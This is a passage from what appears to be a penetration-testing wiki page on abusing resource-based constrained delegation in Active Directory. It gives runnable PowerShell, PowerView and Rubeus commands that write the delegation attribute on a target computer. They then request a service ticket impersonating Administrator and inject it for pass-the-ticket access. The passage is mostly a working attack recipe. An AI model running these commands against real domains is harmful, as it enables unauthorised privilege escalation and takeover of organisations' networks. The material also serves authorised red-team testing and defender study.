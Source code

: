 **1 - Check the value** 🔎 **& Create the computer account** ⚒\*\*\*\*

Check the [MachineAccountQuota](../domain-settings/machineaccountquota.md) page

**2 - Edit the target's security descriptor** ✏ ****

The [PowerShell ActiveDirectory module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps)'s cmdlets Set-ADComputer and Get-ADComputer can be used to write and read the attributed of an object \(in this case, to modify the delegation rights\).

```bash
# Populate the msDS-AllowedToActOnBehalfOfOtherIdentity
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount 'PENTEST01$'

# Read the attribute
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount
```

PowerSploit's [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) module is an alternative that can be used to edit the attribute \([source](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html?highlight=genericall#id31)\).

```bash
# Obtain the SID of the controlled computer account
$ComputerSid = Get-DomainComputer 'PENTEST01' -Properties objectsid | Select -Expand objectsid

# Build a generic ACE with the attacker-added computer SID as the pricipal, and get the binary bytes for the new DACL/ACE
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# set SD in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the target comptuer account
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

**3 - Obtain a ticket** 🎫 ****

[Rubeus](https://github.com/GhostPack/Rubeus) can then be used to request the "impersonation TGS" and inject it for later use.

```bash
Rubeus.exe s4u /user:SHUTDOWN$ /rc4:$NThash /impersonateuser:Administrator /msdsspn:$Target_SPN /ptt
```

The NT hash can be computed as follows.

```bash
Rubeus.exe hash /password:$password
```

**4 - Pass-the-ticket** 🛂 ****

Once the ticket is injected, it can natively be used when accessing the service \(see [pass-the-ticket](pass-the-ticket.md)\).
{% endtab %}
{% endtabs %}
